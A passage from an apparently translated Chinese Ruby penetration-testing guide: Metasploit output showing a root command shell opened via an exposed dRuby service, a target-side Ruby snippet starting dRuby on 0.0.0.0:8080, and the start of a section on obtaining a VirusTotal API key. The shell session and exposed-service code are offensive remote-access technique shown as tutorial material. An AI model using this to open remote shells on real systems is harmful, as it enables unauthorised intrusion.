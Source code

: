 ```
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root) 
```

正如你所看到的，即使你失去了会话，你也可以一次又一次地连接；这是一个服务，记住了吗？

注意：仅仅为了使用Metasploit模块，你甚至不需要RShell类。你只需要目标端的以下内容。

```
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join 
```

我建议在Metasploit不可用的情况下使用第一个代码。

**参考资料**

+   [Metasploit技术细节](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/)

+   [dRuby书籍](https://pragprog.com/book/sidruby/the-druby-book)

# VirusTotal

# VirusTotal

VirusTotal是最知名的在线服务之一，用于分析文件和URL，从而识别病毒、蠕虫、特洛伊木马和其他种类的恶意内容，这些内容被杀毒引擎和网站扫描器检测到。同时，它也可以用作检测误报的手段，即被一个或多个扫描器检测为恶意的无害资源。

## 获取VirusTotal

1.  注册/登录到VirusTotal

1.  转到**我的API密钥**

1.  请求一个私有的APT密钥

    +   不要向你不信任的任何人透露你的私钥。

    +   不要将你的私钥嵌入到可以轻松检索的脚本或软件中

## VirusTotal gem

ruby-virustotal是VirusTotal的自动化和便利工具，用于哈希、文件和URL提交。
